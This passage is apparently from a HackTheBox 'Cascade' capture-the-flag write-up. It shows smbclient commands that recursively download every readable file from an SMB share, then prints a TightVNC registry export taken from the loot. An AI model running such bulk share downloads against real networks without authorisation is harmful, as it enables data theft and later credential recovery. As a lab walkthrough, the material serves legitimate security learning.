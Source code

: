 ```bash
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (4.8 KiloBytes/sec) (average 4.8 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (2.5 KiloBytes/sec) (average 3.6 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (11.3 KiloBytes/sec) (average 6.2 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (5.1 KiloBytes/sec) (average 5.9 KiloBytes/sec)
```

Then I can see a nice list of the files with `find`:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ find smbclient-data -type f 
smbclient-data/IT/Logs/DCs/dcdiag.log
smbclient-data/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
smbclient-data/IT/Temp/s.smith/VNC Install.reg
smbclient-data/IT/Email Archives/Meeting_Notes_June_2018.html

```

There’s a couple interesting files. `Meeting_Notes_June_2018.html` presents like an email when viewed in Firefox:

![casc-1](https://github.com/darshannn10/HackTheBox/assets/87711310/4ec0e860-0e1a-47e3-8673-942faaef27c1)


```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ cat "smbclient-data/IT/Temp/s.smith/VNC Install.reg" 
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
```
